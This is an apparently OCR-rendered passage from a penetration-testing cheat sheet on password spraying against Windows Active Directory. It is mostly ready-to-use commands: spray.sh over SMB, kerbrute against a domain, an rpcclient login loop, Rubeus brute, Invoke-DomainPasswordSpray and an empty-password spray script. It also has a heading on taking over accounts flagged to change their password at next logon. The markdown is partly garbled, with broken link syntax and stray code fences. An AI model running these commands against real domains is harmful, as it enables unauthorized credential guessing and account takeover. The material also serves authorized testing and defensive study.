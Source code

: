 ```
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
```
- Using [[https://github.com/TarlogicSecurity/kerbrute) (python|**kerbrute**]] - NOT RECOMMENDED SOMETIMES DOESN'T WORK

```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```
```
- With the `scanner/smb/smb_login` module of **Metasploit**:

![[<../../images/image (745).png>|]]

- Using **rpcclient**:

```bash
# https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/
for u in $(cat users.txt); do
    rpcclient -U "$u%Welcome1" -c "getusername;quit" 10.10.10.10 | grep Authority;
done
```
```
#### From Windows

- With [[https://github.com/Zer1t0/Rubeus|Rubeus]] version with brute module:

```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
```
- With [[https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) (It can generate users from the domain by default and it will get the password policy from the domain and limit tries according to it|**Invoke-DomainPasswordSpray**]]:

```bash
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
```
- With [[https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1|**Invoke-SprayEmptyPassword.ps1**]]

```
Invoke-SprayEmptyPassword
```
```
### Identify and Take Over "Password must change at next logon" Accounts (SAMR)
